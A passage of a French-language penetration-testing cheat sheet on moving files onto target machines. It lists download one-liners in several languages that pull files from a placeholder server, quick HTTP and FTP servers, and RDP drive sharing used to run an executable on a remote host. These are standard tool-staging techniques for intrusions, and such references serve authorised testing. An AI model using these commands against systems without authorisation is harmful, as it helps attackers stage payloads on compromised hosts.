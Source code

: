 ```sh
axel -a -n 20 -o output http://taget/file.pdf
```

php

```sh
php -r '$file = file_get_contents("http://SERVER/file.ext"); file_put_contents("output_file.ext",$file);'
```

python

```sh
import urllib.request
urllib.request.urlretrieve("http://SERVER/file.ext", "output_file.ext")
```

ruby

```sh
ruby -e 'require "net/http"; File.write("output_file.ext", Net::HTTP.get(URI.parse("http://SERVER/file.ext")))'
```

perl

```sh
perl -e 'use LWP::Simple; getstore("http://SERVER/file.ext", "output_file.ext");'
```

---

### Méthodes de transfert de fichiers

ruby

```sh 
ruby -run -ehttpd . -p8080
```

socat

```c
socat TCP-LISTEN:8080,reuseaddr,fork
```


**RDP**
rdesktop
Exposer un dossier local dans la session RDP distante

```sh
rdesktop 10.10.10.132 -r disk:linux='/home/user/rdesktop/files'
```

```c
[cmd] \\tsclient\linux\file.exe
```

xfreerdp

```c
xfreerdp /v:{target_ip} /u:{user} /p:{pass} /cert:ignore +clipboard /dynamic-resolution /drive:LOCAL_DIRECTORY,SHARE_NAME
```

Acceder a un partager  RDP

```c
[cmd] \\tsclient\SHARE_NAME\file.exe
```

---

### Transferts de fichiers protégés

pyftpdlib

```sh
python3 -m pyftpdlib --user=pentester --password=p4ssw0rd -w

# put this content on a ftp-script.txt file
open 10.10.10.32
pentester
p4ssw0rd

# Connect to FTP using that ftp-script.txt file
PS> ftp -s:ftp-script.txt
```

